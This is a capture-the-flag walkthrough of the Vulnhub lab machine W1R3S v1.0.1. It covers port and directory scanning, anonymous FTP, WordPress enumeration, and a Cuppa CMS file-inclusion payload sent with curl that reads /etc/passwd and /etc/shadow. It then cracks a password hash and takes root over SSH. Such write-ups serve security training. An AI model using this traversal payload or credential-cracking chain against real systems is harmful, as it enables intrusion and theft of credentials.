



# W1R3S V1.0.1 From Vulnhub

## Enumeration 

### NMAP 

Lets Get the Machine IP 

```shell
root@kali:~/Desktop/CTF/Vulnhub/W1R3S_V1.0.1# nmap -F 10.0.2.1/24
Starting Nmap 7.70SVN ( https://nmap.org ) at 2019-01-13 06:15 EST
Nmap scan report for 10.0.2.25
Host is up (0.00029s latency).
Not shown: 89 filtered ports
PORT      STATE  SERVICE
21/tcp    open   ftp
22/tcp    open   ssh
80/tcp    open   http
990/tcp   closed ftps
3306/tcp  open   mysql
49152/tcp closed unknown
49153/tcp closed unknown
49154/tcp closed unknown
49155/tcp closed unknown
49156/tcp closed unknown
49157/tcp closed unknown
MAC Address: 08:00:27:C6:C3:27 (Oracle VirtualBox virtual NIC)
```
Lets Run More Aggressive Scan 
```shell
root@kali:~/Desktop/CTF/Vulnhub/W1R3S_V1.0.1# nmap -A -O -sV -p- 10.0.2.25
Starting Nmap 7.70SVN ( https://nmap.org ) at 2019-01-13 06:16 EST
Nmap scan report for 10.0.2.25
Host is up (0.00029s latency).
Not shown: 55528 filtered ports, 10003 closed ports
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23  2018 content
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23  2018 docs
|_drwxr-xr-x    2 ftp      ftp          4096 Jan 28  2018 new-employees
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.0.2.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 08:00:27:C6:C3:27 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.11
Network Distance: 1 hop
Service Info: Host: W1R3S.inc; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.29 ms 10.0.2.25

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.46 seconds
```
### FTP
So it Allows Login Anonymously
```shell
root@kali:~/Desktop/CTF/Vulnhub/W1R3S_V1.0.1# ftp 10.0.2.25
Connected to 10.0.2.25.
220 Welcome to W1R3S.inc FTP service.
Name (10.0.2.25:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jan 23  2018 content
drwxr-xr-x    2 ftp      ftp          4096 Jan 23  2018 docs
drwxr-xr-x    2 ftp      ftp          4096 Jan 28  2018 new-employees
```
I Went inside each directory and download the files 

**Content** Directory 
01.txt
```text
New FTP Server For W1R3S.inc
```
02.txt
```text
#
#
#
#
#
#
#
#
01ec2d8fc11c493b25029fb1f47f39ce
#
#
#
#
#
#
#
#
#
#
#
#
#
SXQgaXMgZWFzeSwgYnV0IG5vdCB0aGF0IGVhc3kuLg==
############################################
```
```shell
root@kali:~/Desktop/CTF/Vulnhub/W1R3S_V1.0.1# echo SXQgaXMgZWFzeSwgYnV0IG5vdCB0aGF0IGVhc3kuLg== | base64 -d
It is easy, but not that easy..
```
Using Online MD5 Hash Cracker  https://hashkiller.co.uk/md5-decrypter.aspx
```shell
01ec2d8fc11c493b25029fb1f47f39ce MD5 : This[space]is[space]not[space]a[space]password
```
03.txt
```text
___________.__              __      __  ______________________   _________    .__               
\__    ___/|  |__   ____   /  \    /  \/_   \______   \_____  \ /   _____/    |__| ____   ____  
  |    |   |  |  \_/ __ \  \   \/\/   / |   ||       _/ _(__  < \_____  \     |  |/    \_/ ___\ 
  |    |   |   Y  \  ___/   \        /  |   ||    |   \/       \/        \    |  |   |  \  \___ 
  |____|   |___|  /\___  >   \__/\  /   |___||____|_  /______  /_______  / /\ |__|___|  /\___  >
                \/     \/         \/                \/       \/        \/  \/         \/     \/ 
```
**docs** Directory
worktodo.txt
```text
	ı pou,ʇ ʇɥıuʞ ʇɥıs ıs ʇɥǝ ʍɐʎ ʇo ɹooʇ¡

....punoɹɐ ƃuıʎɐןd doʇs ‘op oʇ ʞɹoʍ ɟo ʇoן ɐ ǝʌɐɥ ǝʍ
```
Reverting this using will be 
```text
We have a lot of work to do Stop playing around 
I don't think this is the way to root! 
```

**new-employees** Directory
employee-names.txt
```text
The W1R3S.inc employee list

Naomi.W - Manager
Hector.A - IT Dept
Joseph.G - Web Design
Albert.O - Web Design
Gina.L - Inventory
Rico.D - Human Resources
```
### Go Buster
```shell
root@kali:~# gobuster -u http://10.0.2.25/ -w Desktop/Tools/SecLists/Discovery/Web-Content/big.txt -e -s 200,203,301,302,403,500

=====================================================
Gobuster v2.0.0              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.0.2.25/
[+] Threads      : 10
[+] Wordlist     : Desktop/Tools/SecLists/Discovery/Web-Content/big.txt
[+] Status codes : 200,203,301,302,403,500
[+] Expanded     : true
[+] Timeout      : 10s
=====================================================
2019/01/13 06:54:36 Starting gobuster
=====================================================
http://10.0.2.25/.htaccess (Status: 403)
http://10.0.2.25/.htpasswd (Status: 403)
http://10.0.2.25/administrator (Status: 301)
http://10.0.2.25/javascript (Status: 301)
http://10.0.2.25/server-status (Status: 403)
http://10.0.2.25/wordpress (Status: 301)
=====================================================
2019/01/13 06:54:40 Finished
=====================================================
```
so it has few Directories 

**Wordpress** Directory 
Checking Wordpress Directory redirect to http://localhost/wordpress/
so to fix this edit **/etc/hosts**
```
10.0.2.25 localhost
```
now I have wordpress working 


### WPScan
```shell
root@kali:~# wpscan -u http://localhost/wordpress/
_______________________________________________________________
        __          _______   _____                  
        \ \        / /  __ \ / ____|                 
         \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \ 
           \  /\  /  | |     ____) | (__| (_| | | | |
            \/  \/   |_|    |_____/ \___|\__,_|_| |_|

        WordPress Security Scanner by the WPScan Team 
                       Version 2.9.4
          Sponsored by Sucuri - https://sucuri.net
      @_WPScan_, @ethicalhack3r, @erwan_lr, @_FireFart_
_______________________________________________________________


[i] It seems like you have not updated the database for some time
[i] Last database update: 2019-01-05
[?] Do you want to update now? [Y]es  [N]o  [A]bort update, default: [N] > root@kali:~# wpscan -u http://localhost/wordpress/ --enumerate
_______________________________________________________________
        __          _______   _____                  
        \ \        / /  __ \ / ____|                 
         \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \ 
           \  /\  /  | |     ____) | (__| (_| | | | |
            \/  \/   |_|    |_____/ \___|\__,_|_| |_|

        WordPress Security Scanner by the WPScan Team 
                       Version 2.9.4
          Sponsored by Sucuri - https://sucuri.net
      @_WPScan_, @ethicalhack3r, @erwan_lr, @_FireFart_
_______________________________________________________________


[i] It seems like you have not updated the database for some time
[i] Last database update: 2019-01-05
[?] Do you want to update now? [Y]es  [N]o  [A]bort update, default: [N] > y
[i] Updating the Database ...
[i] Update completed
[+] URL: http://localhost/wordpress/
[+] Started: Sun Jan 13 07:04:03 2019

[+] Interesting header: LINK: <http://localhost/wordpress/index.php/wp-json/>; rel="https://api.w.org/"
[+] Interesting header: LINK: <http://localhost/wordpress/>; rel=shortlink
[+] Interesting header: SERVER: Apache/2.4.18 (Ubuntu)
[+] XML-RPC Interface available under: http://localhost/wordpress/xmlrpc.php   [HTTP 405]
[+] Found an RSS Feed: http://localhost/wordpress/index.php/feed/   [HTTP 200]
[!] Detected 1 user from RSS feed:
+-------+
| Name  |
+-------+
| Admin |
+-------+
[!] Upload directory has directory listing enabled: http://localhost/wordpress/wp-content/uploads/
[!] Includes directory has directory listing enabled: http://localhost/wordpress/wp-includes/

[+] Enumerating WordPress version ...

[+] WordPress version 4.9.9 (Released on 2018-12-13) identified from meta generator, links opml

[+] WordPress theme in use: twentyseventeen - v1.4

[+] Name: twentyseventeen - v1.4
 |  Last updated: 2019-01-09T00:00:00.000Z
 |  Location: http://localhost/wordpress/wp-content/themes/twentyseventeen/
 |  Readme: http://localhost/wordpress/wp-content/themes/twentyseventeen/README.txt
[!] The version is out of date, the latest version is 2.0
 |  Style URL: http://localhost/wordpress/wp-content/themes/twentyseventeen/style.css
 |  Theme Name: Twenty Seventeen
 |  Theme URI: https://wordpress.org/themes/twentyseventeen/
 |  Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a...
 |  Author: the WordPress team
 |  Author URI: https://wordpress.org/

[+] Enumerating installed plugins (only ones with known vulnerabilities) ...

   Time: 00:00:03 <=======================> (1683 / 1683) 100.00% Time: 00:00:03

[+] No plugins found

[+] Enumerating installed themes (only ones with known vulnerabilities) ...

   Time: 00:00:00 <=========================> (288 / 288) 100.00% Time: 00:00:00

[+] No themes found

[+] Enumerating timthumb files ...

   Time: 00:00:05 <=======================> (2574 / 2574) 100.00% Time: 00:00:05

[+] No timthumb files found

[+] Enumerating usernames ...
[+] We identified the following 2 users:
    +----+----------+---------------+
    | ID | Login    | Name          |
    +----+----------+---------------+
    | 1  | admin    | Admin         |
    | 2  | joseph-g | Joseph Gooner |
    +----+----------+---------------+
[!] Default first WordPress username 'admin' is still used

[+] Finished: Sun Jan 13 07:04:51 2019
[+] Elapsed time: 00:00:47
[+] Requests made: 4639
[+] Memory used: 77.574 MB
```
Tried Couple of Brute Force on Both users didn't work I guess we were not meant to brute force moving on to another directory 


**administrator** Directory 

**NOTE** Clean the record we added in hosts file 
This Directory contain CMS called **Cuppa**


Tried to Install it but failed because I don't have enough data 

## Exploitation

so I searched for exploit 
```shell
root@kali:~# searchsploit cuppa
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                                                            |  Path
                                                                                                                                                                          | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion                                                                                                           | exploits/php/webapps/25971.txt
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```
Going to the URL where it says LFI is Vulnerable 
http://10.0.2.25/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

I ended up with this 


an Empty Browser nothing even in the source code 

so I decided to work without the browser using **curl** and try to URL Encode the **urlConfig** parameter

```shell
root@kali:~/Desktop/Tools/Burp2.0# curl -s --data-urlencode urlConfig=../../../../../../../../../etc/passwd http://10.0.2.25/administrator/alerts/alertConfigField.php

daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
w1r3s:x:1000:1000:w1r3s,,,:/home/w1r3s:/bin/bash
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:122:129:ftp daemon,,,:/srv/ftp:/bin/false
mysql:x:123:130:MySQL Server,,,:/nonexistent:/bin/false
```
I got what I need so lets see if we can grab the shadow file 
```shell
root@kali:~/Desktop/Tools/Burp2.0# curl -s --data-urlencode urlConfig=../../../../../../../../../etc/shadow http://10.0.2.25/administrator/alerts/alertConfigField.php

root:$6$vYcecPCy$JNbK.hr7HU72ifLxmjpIP9kTcx./ak2MM3lBs.Ouiu0mENav72TfQIs8h1jPm2rwRFqd87HDC0pi7gn9t7VgZ0:17554:0:99999:7:::
daemon:*:17379:0:99999:7:::
bin:*:17379:0:99999:7:::
sys:*:17379:0:99999:7:::
sync:*:17379:0:99999:7:::
games:*:17379:0:99999:7:::
man:*:17379:0:99999:7:::
lp:*:17379:0:99999:7:::
mail:*:17379:0:99999:7:::
news:*:17379:0:99999:7:::
uucp:*:17379:0:99999:7:::
proxy:*:17379:0:99999:7:::
www-data:$6$8JMxE7l0$yQ16jM..ZsFxpoGue8/0LBUnTas23zaOqg2Da47vmykGTANfutzM8MuFidtb0..Zk.TUKDoDAVRCoXiZAH.Ud1:17560:0:99999:7:::
backup:*:17379:0:99999:7:::
list:*:17379:0:99999:7:::
irc:*:17379:0:99999:7:::
gnats:*:17379:0:99999:7:::
nobody:*:17379:0:99999:7:::
systemd-timesync:*:17379:0:99999:7:::
systemd-network:*:17379:0:99999:7:::
systemd-resolve:*:17379:0:99999:7:::
systemd-bus-proxy:*:17379:0:99999:7:::
syslog:*:17379:0:99999:7:::
_apt:*:17379:0:99999:7:::
messagebus:*:17379:0:99999:7:::
uuidd:*:17379:0:99999:7:::
lightdm:*:17379:0:99999:7:::
whoopsie:*:17379:0:99999:7:::
avahi-autoipd:*:17379:0:99999:7:::
avahi:*:17379:0:99999:7:::
dnsmasq:*:17379:0:99999:7:::
colord:*:17379:0:99999:7:::
speech-dispatcher:!:17379:0:99999:7:::
hplip:*:17379:0:99999:7:::
kernoops:*:17379:0:99999:7:::
pulse:*:17379:0:99999:7:::
rtkit:*:17379:0:99999:7:::
saned:*:17379:0:99999:7:::
usbmux:*:17379:0:99999:7:::
w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::
sshd:*:17554:0:99999:7:::
ftp:*:17554:0:99999:7:::
mysql:!:17554:0:99999:7:::
```
so we have 3 hashes for root , www-data , w1r3s 

Lets Start by cracking w1r3s using **john the ripper**

```shell
root@kali:~/Desktop/CTF/Vulnhub/W1R3S_V1.0.1# john pass.txt 
Warning: detected hash type "sha512crypt", but the string is also recognized as "crypt"
Use the "--format=crypt" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Press 'q' or Ctrl-C to abort, almost any other key for status
computer         (w1r3s)
1g 0:00:00:04 DONE 2/3 (2019-01-20 06:59) 0.2242g/s 665.6p/s 665.6c/s 665.6C/s 123456..green
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
So the creds are 
```
w1r3s : computer
```

## Post Exploitation 

Connect with SSH 
```shell
root@kali:~# ssh w1r3s@10.0.2.25
The authenticity of host '10.0.2.25 (10.0.2.25)' can't be established.
ECDSA key fingerprint is SHA256:/3N0PzPMqtXlj9QWJFMbCufh2W95JylZ/oF82NkAAto.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.0.2.25' (ECDSA) to the list of known hosts.
----------------------
Think this is the way?
----------------------
Well,........possibly.
----------------------
w1r3s@10.0.2.25's password: 
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.13.0-36-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

259 packages can be updated.
11 updates are security updates.

.....You made it huh?....
Last login: Mon Jan 22 22:47:27 2018 from 192.168.0.35
w1r3s@W1R3S:~$ 
```
I Tried maybe the user can elevate to root 
```shell
w1r3s@W1R3S:~/ftp/files$ sudo -s 
sudo: unable to resolve host W1R3S
[sudo] password for w1r3s: 

root@W1R3S:~/ftp/files# cd /root/
root@W1R3S:/root# ls
flag.txt
root@W1R3S:/root# cat flag.txt 
-----------------------------------------------------------------------------------------
   ____ ___  _   _  ____ ____      _  _____ _   _ _        _  _____ ___ ___  _   _ ____  
  / ___/ _ \| \ | |/ ___|  _ \    / \|_   _| | | | |      / \|_   _|_ _/ _ \| \ | / ___| 
 | |  | | | |  \| | |  _| |_) |  / _ \ | | | | | | |     / _ \ | |  | | | | |  \| \___ \ 
 | |__| |_| | |\  | |_| |  _ <  / ___ \| | | |_| | |___ / ___ \| |  | | |_| | |\  |___) |
  \____\___/|_| \_|\____|_| \_\/_/   \_\_|  \___/|_____/_/   \_\_| |___\___/|_| \_|____/ 
                                                                                        
-----------------------------------------------------------------------------------------

                          .-----------------TTTT_-----_______
                        /''''''''''(______O] ----------____  \______/]_
     __...---'"""\_ --''   Q                               ___________@
 |'''                   ._   _______________=---------"""""""
 |                ..--''|   l L |_l   |
 |          ..--''      .  /-___j '   '
 |    ..--''           /  ,       '   '
 |--''                /           `    \
                      L__'         \    -
                                    -    '-.
                                     '.    /
                                       '-./

----------------------------------------------------------------------------------------
  YOU HAVE COMPLETED THE
               __      __  ______________________   _________
              /  \    /  \/_   \______   \_____  \ /   _____/
              \   \/\/   / |   ||       _/ _(__  < \_____  \ 
               \        /  |   ||    |   \/       \/        \
                \__/\  /   |___||____|_  /______  /_______  /.INC
                     \/                \/       \/        \/        CHALLENGE, V 1.0
----------------------------------------------------------------------------------------

CREATED BY SpecterWires

----------------------------------------------------------------------------------------
```
# Happy Hacking
